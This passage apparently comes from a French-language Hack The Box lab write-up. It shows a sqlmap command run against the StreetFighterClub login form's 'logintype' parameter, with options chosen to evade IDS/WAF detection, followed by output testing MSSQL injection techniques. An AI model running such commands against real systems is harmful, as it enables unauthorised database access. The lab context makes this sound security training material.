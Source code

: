 L'autre particularité observée avec *ZAP Proxy* c'est que lors de l'envoi d'une requête de login, si cette dernière réussi, le cookie obtenu nous *colle à la peau* et fausse la suite des attaques. Il faut alors avoir recours à l'option *--drop-set-cookie* lorsque l'on lance *SQLmap*.  

Mais lors du lancement de ce dernier... nada. On est redirigé vers la page d'authentification. Cela est vite bypassé en utilisant l'option *--random-agent* (par défaut SQLMap envoie son nom dans le user-agent, ce qui fait le bonheur des IDS/IPS/WAF).  

On s'en sort finalement avec la commande suivante :  

```plain
devloop@kali:~$ sqlmap -u 'http://members.streetfighterclub.htb/old/verify.asp' --referer 'http://members.streetfighterclub.htb/old/login.asp' --data 'username=admin&password=test&logintype=1&rememberme=ON&B1=LogIn' --risk 3 --level 5 -p logintype --dbms mssql --drop-set-cookie --random-agent --string "ERROR: Service not available"
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.2.7#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 14:17:26

[14:17:26] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (Windows NT 6.0; U; en; rv:1.8.1) Gecko/20061208 Firefox/2.0.0 Opera 9.51' from file '/usr/share/sqlmap/txt/user-agents.txt'
[14:17:27] [INFO] testing connection to the target URL
[14:17:27] [INFO] heuristics detected web page charset 'ascii'
sqlmap got a 302 redirect to 'http://members.streetfighterclub.htb:80/old/welcome.asp'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] n
[14:18:06] [INFO] testing if the provided string is within the target URL page content
[14:18:06] [WARNING] heuristic (basic) test shows that POST parameter 'logintype' might not be injectable
[14:18:06] [INFO] testing for SQL injection on POST parameter 'logintype'
[14:18:06] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:18:07] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[14:18:07] [INFO] testing 'Microsoft SQL Server/Sybase OR error-based - WHERE or HAVING clause (IN)'
[14:18:07] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (CONVERT)'
[14:18:07] [INFO] testing 'Microsoft SQL Server/Sybase OR error-based - WHERE or HAVING clause (CONVERT)'
[14:18:07] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (CONCAT)'
[14:18:07] [INFO] testing 'Microsoft SQL Server/Sybase OR error-based - WHERE or HAVING clause (CONCAT)'
[14:18:07] [INFO] testing 'Microsoft SQL Server/Sybase error-based - Parameter replace'
[14:18:08] [INFO] testing 'Microsoft SQL Server/Sybase error-based - Parameter replace (integer column)'
[14:18:08] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[14:18:08] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[14:18:08] [WARNING] time-based comparison requires larger statistical model, please wait....... (done)
[14:18:09] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries'
[14:18:09] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[14:18:09] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF - comment)'
[14:18:09] [INFO] testing 'Microsoft SQL Server/Sybase AND time-based blind (heavy query)'
[14:18:10] [INFO] testing 'Microsoft SQL Server/Sybase OR time-based blind (heavy query)'
```